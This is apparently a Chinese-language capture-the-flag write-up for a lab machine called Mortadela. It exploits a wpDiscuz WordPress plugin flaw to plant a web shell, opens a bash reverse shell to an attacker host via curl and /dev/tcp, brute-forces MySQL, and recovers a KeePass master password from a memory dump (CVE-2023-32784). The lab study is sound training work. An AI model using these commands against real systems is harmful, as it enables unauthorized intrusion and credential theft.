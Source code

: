 # Mortadela

2025.03.07 https://thehackerslabs.com/mortadela/

[video](https://www.bilibili.com/video/BV1WY92YLEfF/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

80 web 发现 wordpress http://192.168.5.39/wordpress/ , 先 wpscan 枚举用户、主题、插件。

```
wpscan -e u,ap,at,tt,cb --plugins-detection mixed --url http://192.168.5.39/wordpress/
```

枚举到一个用户 mortadela ， wpdiscuz 7.0.4 存在未授权的 RCE 漏洞 https://www.exploit-db.com/exploits/49967 进行利用(首页上找到 Hello world! 的地址)：

```
python3 49967.py -u http://192.168.5.39/wordpress -p /index.php/2024/04/01/hola-mundo/
```

上传了 web shell : http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php , pass 为 cmd 进行连接验证：

```
curl http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php?cmd=ls
```

可以访问，直接反弹 shell：

```
curl -G --data-urlencode 'cmd=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php
```

先看 wp-config.php 文件：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'lolalolitalola' );
define( 'DB_HOST', 'localhost' );
```

上面的数据库密码不是用户 mortadela 的密码。

在 /opt 中发现 muyconfidencial.zip , 有密码，下载到 kali 上 john 破解，zip 解压密码 pinkgirl ， 得到 keeppass 文件，john 不能爆出密码。 再看 KeePass.DMP 文件，不能拿到 kdbx 文件的密码。

现在没有其他方向，还有一个 mysql 3306 的开放端口，看看能不能爆破到 root 用户的密码，有可能在数据库中有密码信息：

```
[3306][mysql] host: 192.168.5.39   login: root   password: cassandra
```

登陆数据库，发现数据库 confidencial :

```
MariaDB [confidencial]> select * from usuarios;
+-----------+------------------+
| usuario   | contraseña       |
+-----------+------------------+
| mortadela | Juanikokukunero8 |
+-----------+------------------+
```

拿到了 mortadela 的 ssh 登陆密码 Juanikokukunero8 ，先读到了 user flag:

```
mortadela@mortadela:~$ cat user.txt
sajferoifgvpcnsorvn
```

下面要解决 keepass 的 dmp 文件，找到密码。2023 年 5 月 10 日，发现了一个高风险漏洞 ( CVE-2023-32784 )。此漏洞允许有权访问运行 KeePass 的系统的攻击者通过分析内存转储来提取数据库的主密码，从而利用此漏洞。

见详细解释: https://www.cyberis.com/article/exploiting-keepass-cve-2023-32784 和 https://github.com/vdohney/keepass-password-dumper

NET 7 installation instructions for Linux:

```
~# curl -Lo dotnet.tar.gz https://download.visualstudio.microsoft.com/download/pr/f5c74056-330b-452b-915e-d98fda75024e/18076ca3b89cd362162bbd0cbf9b2ca5/dotnet-sdk-7.0.100-rc.2.22477.23-linux-x64.tar.gz
~# mkdir dotnet
~# tar -C dotnet -xf dotnet.tar.gz
~# rm dotnet.tar.gz
~# export DOTNET_ROOT=~/dotnet
~# export PATH=$PATH:~/dotnet
~# dotnet --version
7.0.100-rc.2.22477.23
```

使用这个漏洞脚本进行利用: https://github.com/matro7sh/keepass-dump-masterkey , 其中前 2 个字符不准确，需要进行枚举，使用 crunch 进行枚举(以 ritrini12345 为基础，前面增加两个枚举的字符)：

```
python3 poc.py -d KeePass.DMP
2025-03-07 20:36:16,582 [.] [main] Opened KeePass.DMP
Possible password: ●aritrini12345
Possible password: ●Dritrini12345
Possible password: ●\ritrini12345
Possible password: ●#ritrini12345
Possible password: ●yritrini12345
Possible password: ●kritrini12345
Possible password: ●9ritrini12345
Possible password: ●;ritrini12345
Possible password: ●Hritrini12345
Possible password: ●[ritrini12345
Possible password: ● ritrini12345
Possible password: ●fritrini12345
```

```
crunch 14 14 -f /usr/share/crunch/charset.lst mixalpha-numeric -t @@ritrini12345 -o pass.txt

Maritrini12345
```

使用密码 Maritrini12345 打开 keepass 文件，拿到 root 的登陆密码 Juanikonokukunero 拿到 root flag：

```
root@mortadela:~# cat root.txt
aiugfurebaoergivthneioerv
```
